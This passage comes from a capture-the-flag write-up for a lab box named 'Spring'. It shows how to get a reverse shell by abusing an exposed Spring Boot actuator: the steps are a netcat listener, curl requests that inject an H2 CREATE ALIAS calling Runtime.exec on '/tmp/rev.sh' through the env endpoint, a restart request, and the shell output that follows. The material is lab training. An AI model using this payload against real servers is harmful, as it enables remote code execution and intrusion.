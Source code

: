<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Stage 2 of Payload

Now we have `/tmp/rev.sh` is on the target, all we have to do is start a netcat listener on port 9000 and send requests to target to run `/tmp/rev.sh`;

```bash
nc -lvnp 9000
```

{% code overflow="wrap" %}
```bash
# run rev.sh using bash (remember rev.sh's executable bit is not set!)
curl -X POST -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' --data-binary $'{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'bash /tmp/rev.sh\');"}' "https://spring.thm/actuator/env" -k

# restart the server.
curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' "https://spring.thm/actuator/restart" -k
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

And we get rev shell.

```bash
nobody@spring:/$ ls -al opt
ls -al opt
total 20
drwxr-xr-x  3 root root 4096 Jul 10  2020 .
drwxr-xr-x 24 root root 4096 Jul  3  2020 ..
-rw-r--r--  1 root root   34 Jul 10  2020 foothold.txt
-rw-r--r--  1 root root 2597 Jul  4  2020 privcert.p12
drwxr-xr-x  3 root root 4096 Jul 10  2020 spring
nobody@spring:/$ cd opt
cd opt
nobody@spring:/opt$ cat foothold.txt
cat foothold.txt
THM{dont_expose_.git_to_internet}
nobody@spring:/opt$ 
```
